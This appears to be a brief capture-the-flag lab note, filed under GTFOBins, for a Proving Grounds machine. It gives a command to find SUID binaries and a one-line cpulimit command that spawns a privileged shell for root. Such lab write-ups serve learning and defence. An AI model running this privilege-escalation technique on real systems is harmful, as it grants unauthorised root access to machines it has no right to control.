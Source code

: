 ```yaml
---
layout: default
title: cpulimit
parent: GTFOBins
nav_order: 2
---
```


# cpulimit

---

```bash
find / -perm -u=s -type f 2>/dev/null
```

![suid](../../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/suid.png)

![gtfobins](../../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/gtfobins.png)

## Exploit Cpulimit SUID to get root

```bash
cpulimit -l 100 -f -- /bin/sh -p
```

![root](../../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/root.png)
